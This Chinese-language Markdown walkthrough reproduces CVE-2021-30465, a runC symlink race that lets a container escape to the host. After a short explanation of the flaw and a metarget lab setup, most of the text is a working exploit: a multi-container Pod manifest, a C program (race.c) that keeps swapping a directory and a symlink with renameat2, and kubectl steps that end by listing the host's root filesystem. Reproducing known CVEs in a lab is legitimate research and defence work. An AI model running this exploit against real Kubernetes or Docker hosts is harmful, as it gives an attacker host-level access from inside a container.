

# runC漏洞导致容器逃逸（CVE-2021-30465）

## 场景介绍

runC是一个CLI工具，用于根据OCI规范生成和运行容器，该工具被广泛的应用于各种虚拟化环境中，如Kubernetes。

该漏洞是由于挂载卷时，runC不信任目标参数，并将使用 “filepath-securejoin” 库来解析任何符号链接并确保解析的目标在容器根目录中，但是如果用符号链接替换检查的目标文件时，可以将主机文件挂载到容器中。黑客可利用该漏洞能将宿主机目录挂载到容器中，来实现容器逃逸。

## 漏洞详情

在容器层面挂载卷和挂载目录是不一样的。

挂载目录，对容器来说，只是简单把目录与容器的目录做映射绑定，而目录的权限还是在主机，需要用户自制维护，手动处理权限等问题。

卷 (Volume) 是受控存储，挂载卷后是由容器引擎进行管理维护的，也就是把对应卷的所有权交给了容器引擎（本次漏洞的核心点）

正常定义卷A之后 ，若a容器挂载了卷A，那它同时也挂载了卷A下面的目录。

当a容器起来后，恶意程序疯狂的在挂载的目录下刷新软连接与目录的关系。与此同时若b容器也像a容器一样挂载了相同中的卷和对应卷下面的目录。

因为卷所有权这个时候是在引擎内，并且a容器相同卷下的目录还在刷新软连接（相同于创建软连接）这个时间在容器引擎内部就会存在资源竞争，形成了漏洞。

## 环境搭建

漏洞环境准备：

```bash
# docker
./metarget cnv install cve-2021-30465
# k8s
./metarget gadget install k8s --version 1.16.5 --domestic
```

## 漏洞复现

因为是利用竞争条件来进行利用的，有很大概率失败的。

### 步骤一：创建攻击Pod

```bash
sudo kubectl create -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
    name: attack
spec:
    terminationGracePeriodSeconds: 1
    containers:
    - name: c1
      image: ubuntu:latest
      command: [ "/bin/sleep", "inf" ]
      env:
      - name: MY_POD_UID
        valueFrom:
          fieldRef:
            fieldPath: metadata.uid 
      volumeMounts:
        - name: test1
          mountPath: /test1
        - name: test2
          mountPath: /test2
$(for c in {2..20}; do
cat <<EOC
    - name: c$c
      image: donotexists.com/do/not:exist
      command: [ "/bin/sleep", "inf" ]
      volumeMounts: #容器内挂载点
        - name: test1 #宿主机目录名
          mountPath: /test1 #容器内目录名
        - name: test2
          mountPath: /test1/mnt1
        - name: test2
          mountPath: /test1/mnt2
        - name: test2
          mountPath: /test1/mnt3
        - name: test2
          mountPath: /test1/mnt4
        - name: test2
          mountPath: /test1/zzz
EOC
done
)
    volumes:
      - name: test1 #宿主机目录名
        emptyDir: #宿主机挂载点
          medium: "Memory"
      - name: test2
        emptyDir:
          medium: "Memory"
EOF
```

### 步骤二：编译恶意程序

保存以下代码为`race.c`文件并编译`gcc race.c -o race`:

```c
#define _GNU_SOURCE

#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <unistd.h>
#include <sys/syscall.h>

#ifndef RENAME_EXCHANGE
#define RENAME_EXCHANGE (1 << 1) 
#endif

int main(int argc, char *argv[]) {
    if (argc != 4) {
        fprintf(stderr, "Usage: %s name1 name2 linkdest\n", argv[0]);
        exit(EXIT_FAILURE);
    }
    char *name1 = argv[1], *name2 = argv[2], *linkdest = argv[3];

    int dirfd = open(".", O_DIRECTORY|O_CLOEXEC);
    if (dirfd < 0)
        exit(EXIT_FAILURE);

    if (mkdir(name1, 0755) < 0)
        perror("mkdir failed");
    if (symlink(linkdest, name2) < 0)
        perror("symlink failed");

    while (1)
        syscall(SYS_renameat2, dirfd, name1, dirfd, name2, RENAME_EXCHANGE);
}
```

### 步骤三：执行恶意程序

将恶意程序拷贝至c1容器内执行：

```bash
kubectl cp race -c c1 attack:/test1/
```

然后进去容器创建符号链接：

```bash
sudo kubectl exec -it attack -c c1 bash
ln -s / /test2/test2
```

进入/test1目录下执行程序：

```bash
seq 1 4 | xargs -n1 -P4 -I{} ./race mnt{} mnt-tmp{} /var/lib/kubelet/pods/$MY_POD_UID/volumes/kubernetes.io~empty-dir/
```

接着更新c2-c20的容器镜像为合法镜像。新打开一个终端，执行以下命令更新镜像，一旦更新，pod会尝试创建容器。

```bash
for c in {2..20}; do
  sudo kubectl set image pod attack c$c=ubuntu:latest
done
```

执行以下命令查看漏洞是否利用成功：

```bash
for c in {2..20}; do
  echo ~~ Container c$c ~~
  sudo kubectl exec -ti pod/attack -c c$c -- ls /test1/zzz
done
```

若利用成功，会打印出/test1/zzz目录下的内容，也即宿主机根目录的内容：



## 参考文献

1. https://blog.champtar.fr/runc-symlink-CVE-2021-30465/
2. https://mp.weixin.qq.com/s/WRRjLKk_C9pq2WlvnA-NZQ